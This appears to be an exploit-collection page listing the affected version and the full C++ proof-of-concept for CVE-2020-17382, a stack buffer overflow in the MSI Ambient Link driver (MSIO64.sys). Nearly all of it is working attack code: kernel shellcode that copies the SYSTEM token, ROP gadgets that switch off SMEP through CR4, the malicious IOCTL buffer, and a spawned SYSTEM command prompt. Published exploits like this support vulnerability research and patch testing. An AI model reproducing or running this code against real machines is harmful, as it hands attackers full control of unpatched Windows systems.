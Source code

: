 <languages />

影响版本
--------

    Version: 1.0.0.8

EXP
---

    /*
    Exploit Title: MSI Ambient Link Driver 1.0.0.8 - Local Privilege Escalation
    Date: 2020-09-24
    Exploit Author: Matteo Malvica
    Vendor Homepage: https://www.msi.com
    Software Link: https://msi.gm/ABLTMNB
    Driver: MSIO64.sys
    SHA256: 525D9B51A80CA0CD4C5889A96F857E73F3A80DA1FFBAE59851E0F51BDFB0B6CD
    Version: 1.0.0.8
    Tested on: Windows 10 1709 [19041.1.amd64fre.vb_release.191206-1406]
    MSI Ambient Link Driver 1.0.0.8 Kernel Stack Based Buffer Overflow / Local Privilege Escalation
    CVE: CVE-2020-17382
    Writeup: https://www.matteomalvica.com/blog/2020/09/24/weaponizing-cve-2020-17382/
    Original advisory: https://www.coresecurity.com/core-labs/advisories/msi-ambient-link-multiple-vulnerabilities
    */

    #include <iostream>
    #include <string>
    #include <Windows.h>
    #include <Psapi.h>

    #pragma warning( disable : 6387 )

    VOID eopMsio(HANDLE hFile, INT64 kernel_base, DWORD pid, DWORD IoControlCode) {
              // SHELLCODE FOR 1709
              BYTE token_steal[] =
              "\x65\x48\x8B\x14\x25\x88\x01\x00\x00"      // mov rdx, [gs:188h]       ; Get _ETHREAD pointer from KPCR
              "\x4C\x8B\x82\xB8\x00\x00\x00"              // mov r8, [rdx + b8h]      ; _EPROCESS (kd> u PsGetCurrentProcess)
              "\x4D\x8B\x88\xe8\x02\x00\x00"              // mov r9, [r8 + 2e8h]      ; ActiveProcessLinks list head
              "\x49\x8B\x09"                              // mov rcx, [r9]            ; Follow link to first process in list
              //find_system_proc:
              "\x48\x8B\x51\xF8"                          // mov rdx, [rcx - 8]       ; Offset from ActiveProcessLinks to UniqueProcessId
              "\x48\x83\xFA\x04"                          // cmp rdx, 4               ; Process with ID 4 is System process
              "\x74\x05"                                  // jz found_system          ; Found SYSTEM token
              "\x48\x8B\x09"                              // mov rcx, [rcx]           ; Follow _LIST_ENTRY Flink pointer
              "\xEB\xF1"                                  // jmp find_system_proc     ; Loop
              //found_system:
              "\x48\x8B\x41\x70"                          // mov rax, [rcx + 70h]     ; Offset from ActiveProcessLinks to Token
              "\x24\xF0"                                  // and al, 0f0h             ; Clear low 4 bits of _EX_FAST_REF structure
              //find cmd
              "\x48\x8B\x51\xF8"                          // mov rdx, [rcx-8]         ;ActiveProcessLinks - 8 = UniqueProcessId
              "\x48\x81\xFA\x99\x99\x00\x00"              // cmp rdx, 0d54h           ;UniqueProcessId == ZZZZ? (PLACEHOLDER)
              "\x74\x05"                                  // jz found_cmd             ;YES - move on
              "\x48\x8B\x09"                              // mov rcx, [rcx]           ;NO - next entry in list
              "\xEB\xEE"                                  // jmp find_cmd             ;loop
              // found cmd
              "\x48\x89\x41\x70"                          // mov [rcx+70h], rax       ;copy SYSTEM token over top of this process's token
              "\x48\x31\xc9"                              // xor rcx rcx              ; clear some registers to avoid issues while unwinding the call stack
              "\x48\x31\xc0"                              // xor rax rax
              "\x48\x31\xf6"                              // xor rsi,rsi
              "\x48\x31\xff"                              // xor rdi, rdi
              "\x4D\x31\xC0"                              // xor r8, r8
              "\x48\xc7\xc1\xf8\x06\x15\x00"              // mov rcx, 0x1506f8        ; move original cr4 value into rcx
              "\xc3";                                     // ret                      ; RET

        token_steal[54] = pid;
        token_steal[55] = pid >> 8;

        LPVOID allocated_shellcode = VirtualAlloc(NULL,
            sizeof(token_steal),
            MEM_COMMIT | MEM_RESERVE,
            PAGE_EXECUTE_READWRITE);

        memcpy(allocated_shellcode, token_steal, sizeof(token_steal));

        INT64 pop_rcx_offset = kernel_base + 0x15fc70;            // gadget 1 1709 - pop rcx ; ret
        INT64 mov_cr4_offset = kernel_base + 0x76a02;             // gadget 2 1709 - mov cr4, ecx ; ret
        INT64 wbindv_offset = kernel_base + 0x1175c0;;            // gadget 3 1709 - wbinvd; ret
        INT64 rcx_value = 0x506f8;                                // value we want placed in cr4 in order to disable SMEP
        INT64 rcx_old_value = 0x1506f8;                           // original cr4 value
        INT64 ret = pop_rcx_offset + 1;                           // RET NOP

        puts("[+] SMEP disabled");

        BYTE  input_buff[136] = { 0 };
        memset(input_buff, '\x41', 64);
        memset(input_buff, '\x42', 8);                            // dummy RBP
        memcpy(input_buff + 72, (PINT64)&pop_rcx_offset, 8);      // pop rcx
        memcpy(input_buff + 80, (PINT64)&rcx_value, 8);           // disable SMEP value
        memcpy(input_buff + 88, (PINT64)&mov_cr4_offset, 8);      // mov cr4, rcx
        memcpy(input_buff + 96, (PINT64)&wbindv_offset, 8);       // wbinvd; ret
        memcpy(input_buff + 104, (PINT64)&allocated_shellcode, 8);// shellcode
        memcpy(input_buff + 112, (PINT64)&mov_cr4_offset, 8);     // mov cr4, rcx
        memcpy(input_buff + 120, (PINT64)&ret, 8);                // RETNOP to restore the stack
        memcpy(input_buff + 128, (PINT64)&ret, 8);                // RETNOP to restore the stack

        printf("[+] Payload buffer located at: 0x%p\n", &allocated_shellcode);

        DWORD lpBytesReturned = 0x0;
        BOOL triggerIOCTL = DeviceIoControl(hFile,
            IoControlCode,
            input_buff,
            sizeof(input_buff),
            NULL,
            0,
            &lpBytesReturned,
            NULL);

        if (!triggerIOCTL) {
            printf("[!] DeviceIoControl failed: %d\n", GetLastError());
        }
        else {
            puts("[+] SMEP re-enabled");
            puts("[+] Enjoy your SYSTEM shell\n");
        }

        system("start cmd.exe");
    }

    LPVOID GetBaseAddr(const char* drvname) {
        LPVOID drivers[1024];
        DWORD cbNeeded;
        int nDrivers, i = 0;

        if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers)) {
            char szDrivers[1024];
            nDrivers = cbNeeded / sizeof(drivers[0]);
            for (i = 0; i < nDrivers; i++) {
                if (GetDeviceDriverBaseNameA(drivers[i], (LPSTR)szDrivers, sizeof(szDrivers) / sizeof(szDrivers[0]))) {
                    if (strcmp(szDrivers, drvname) == 0) {
                        return drivers[i];
                    }
                }
            }
        }
        return 0;
    }

    HANDLE GetDriverHandle() {
        HANDLE hMsio;

        hMsio = CreateFileA("\\\\.\\MsIo",
            FILE_READ_ACCESS | FILE_WRITE_ACCESS,
            FILE_SHARE_READ | FILE_SHARE_WRITE,
            NULL,
            OPEN_EXISTING,
            FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
            NULL);

        if (hMsio == INVALID_HANDLE_VALUE) {
            printf("[-] Error obtaining an handle to the driver: %d\n", GetLastError());
            exit(1);
        }

        return hMsio;
    }

    int main() {
        puts("[*] CVE-2020-17382 - Win10 1709 - PoC by Matteo 'uf0' Malvica");
        DWORD IoControlCode = 0x80102040;
        HANDLE hDevice = GetDriverHandle();
        INT64 nt = (INT64)GetBaseAddr("ntoskrnl.exe");
        DWORD pid = GetCurrentProcessId();

        eopMsio(hDevice, nt, pid, IoControlCode);

        return 0;
    }